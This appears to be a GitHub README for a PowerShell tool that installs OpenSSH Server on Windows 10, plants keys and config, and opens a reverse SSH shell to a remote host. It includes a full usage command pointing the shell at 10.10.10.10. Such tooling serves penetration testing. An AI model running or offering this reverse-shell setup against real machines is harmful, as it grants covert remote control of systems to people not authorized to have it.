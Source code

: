 # lol-reverseSSHell
Living Off the LAN Reverse Shell over SSH for Windows 10

This script will install OpenSSH Server on Windows 10 via WindowsCapability. Then it will copy the sshd_config file, SSH private key, and authorized_keys file to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell serves CMD.exe by default. Once you're in the cmd cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName aj -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 5555 -InstallOpenSSHServer yes Powershell prompt run ./LoL-ReverseSSHell.ps1
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)

